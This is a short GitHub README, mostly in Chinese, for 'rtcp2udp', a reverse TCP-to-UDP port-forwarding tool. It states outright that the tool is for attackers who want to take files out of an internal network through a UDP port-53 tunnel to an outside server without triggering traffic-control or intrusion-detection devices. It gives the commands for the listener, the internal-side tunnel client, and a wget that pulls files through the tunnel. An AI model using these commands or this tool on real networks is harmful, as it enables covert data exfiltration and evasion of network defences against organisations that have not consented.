 # rtcp2udp
反向端口转发工具  
Reverse TCP Port to UDP Forwarding Tools  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
于是有了本工具，本工具的原理为，向外网服务器建立一个反向的UDP端口(53)隧道，用于文件传输；  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)

## 使用说明
Http Server  <- 内网机器 -> Internet Server  
client request -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

1. 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```bash
[root@localhost ~]#python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
2. 在内网机器打通与外网服务器之间的 UDP 隧道
```bash
[root@localhost ~]#python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
3. 当隧道打通后，就可以开始文件传输服务
```bash
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```


